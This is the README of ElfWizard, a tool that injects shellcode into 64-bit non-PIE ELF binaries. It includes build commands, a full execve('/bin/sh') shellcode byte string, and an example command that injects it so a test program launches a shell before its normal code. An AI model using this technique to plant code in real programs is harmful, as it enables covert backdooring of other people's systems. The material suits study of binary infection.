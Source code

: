# ElfWizard
A simple tool to inject shellcode into an ELF binary.

## Requirements
* gcc
* A 64 bits ELF binary (no PIE)

## Example
I will use test/test.c program for this example:
First we compile our binary:
```
gcc -o test/test test/test.c -fno-pie -no-pie
```

We compile ElfWizard:
```gcc
gcc -o elfwizard src/main.c src/misc.c src/elf.c -Iincludes/
```

We are ready to inject a shellcode, I choose a simple shellcode that starts /bin/sh (http://shell-storm.org/shellcode/files/shellcode-806.php) We need to convert the shellcode to a hex string before, we can do that with python for example:

```
print(b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05".hex())
```
We are ready to run ./elfwizard

```
./elfwizard --inject 31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05 test/test
```

Now if we run test/test, /bin/sh will be executed before the expected program.
